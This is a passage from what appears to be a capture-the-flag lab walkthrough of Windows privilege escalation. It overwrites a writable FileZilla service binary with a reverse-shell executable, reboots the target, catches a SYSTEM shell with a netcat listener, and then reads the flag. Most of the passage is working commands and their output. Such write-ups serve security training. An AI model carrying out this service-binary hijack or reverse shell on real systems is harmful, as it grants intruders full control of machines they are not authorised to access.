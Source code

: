 - It appears FileZilla is running as `LocalSystem` and the application binaries can be overwritten by `NT AUTHORITY\Authenticated Users`
- However, we do not have rights to restart the service, so we need to reboot the target for changes to take effect

Replace the application binaries with the reverse shell executable we generated previously:

```cmd
c:\windows\system32\inetsrv>move C:\xampp\filezillaftp\filezillaserver.exe C:\xampp\filezillaftp\filezillaserver.exe.bak
move C:\xampp\filezillaftp\filezillaserver.exe C:\xampp\filezillaftp\filezillaserver.exe.bak
        1 file(s) moved.

c:\windows\system32\inetsrv>copy C:\Users\myumbraco.local\reverse.exe C:\xampp\filezillaftp\filezillaserver.exe
copy C:\Users\myumbraco.local\reverse.exe C:\xampp\filezillaftp\filezillaserver.exe
        1 file(s) copied.
```

Reboot the target machine, and quickly re-open the netcat listener
- Run reboot: `shutdown -r -t 0`
- The reverse shell does not automatically terminate on reboot, so we need to `Ctrl+C` to end the current session
- Run the listener again with `nc -nlvp 4444` **before the target machine comes back up**

If done correctly, you should see:

```cmd
c:\windows\system32\inetsrv>shutdown -r -t 0
shutdown -r -t 0

c:\windows\system32\inetsrv>^C

┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.45] 49669
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Perfect, we now have a SYSTEM-level shell

# 6. Getting the proof

Now all that's left is to search and retrieve the flag:

```cmd
C:\Windows\System32>dir C:\*flag* /s
dir C:\*flag* /s
⋮
 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

10/14/2021  11:01 AM               554 flag.txt.lnk
               1 File(s)            554 bytes

 Directory of C:\Users\Mickey\Desktop

10/14/2021  11:02 AM               420 flag.txt.txt
               1 File(s)            420 bytes
⋮
C:\Windows\System32>type C:\Users\Mickey\Desktop\flag.txt.txt
type C:\Users\Mickey\Desktop\flag.txt.txt
```